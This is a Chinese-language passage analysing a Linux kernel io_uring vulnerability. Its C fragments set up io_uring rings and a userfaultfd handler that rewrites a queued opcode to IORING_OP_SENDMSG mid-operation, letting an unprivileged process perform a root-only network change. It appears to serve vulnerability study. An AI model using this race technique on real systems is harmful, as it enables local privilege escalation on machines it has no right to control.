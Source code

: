 ```
#define SYS_io_uring_setup 425 
#define SYS_io_uring_enter 426 
```

poc 运行之后会添加一个inet 地址，这个是需要root权限才能操作的。

![](https://p4.ssl.qhimg.com/t01b7288cbb00d35165.jpg)

首先调用`io_uring_enter`创建一个fd, 并把内存映射好

```
struct io_uring_params params = { };                                                                 int uring_fd = SYSCHK(syscall(SYS_io_uring_setup, /*entries=*/10, &params));                         unsigned char *sq_ring = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_SQ_RING));                                                                                 unsigned char *cq_ring = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_CQ_RING));                                                                                 sqes = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_SQES));       
```

然后用 userfaultfd 监听 `iov` 这一块内存

```
iov = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0));  
struct uffdio_register reg = {                                
    .mode = UFFDIO_REGISTER_MODE_MISSING,                       
    .range = { .start = (unsigned long)iov, .len = 0x1000 }     
  };                                                            

```

它会在 内存被读写的时候吧opcode改成`IORING_OP_SENDMSG`(9)

```c
static void *uffd_thread(void *dummy) {                           
  struct uffd_msg msg;                                            
  int res = SYSCHK(read(uffd, &msg, sizeof(msg)));                
  if (res != sizeof(msg)) errx(1, "uffd read");                   
  printf("got userfaultfd message\n");                            
                                                                  
  sqes[0].opcode = IORING_OP_SENDMSG;                             
                                                                  
  union {                                                         
    struct iovec iov;                                             
    char pad[0x1000];                                             
  } vec = {                                                       
    .iov = real_iov                                               
  };                                                              
  struct uffdio_copy copy = {                                     
    .dst = (unsigned long)iov,                                    
    .src = (unsigned long)&vec,                                   
    .len = 0x1000                                                 
  };                                                              
  SYSCHK(ioctl(uffd, UFFDIO_COPY, &copy));                        
  return NULL;                                                    
}                                                                 

```
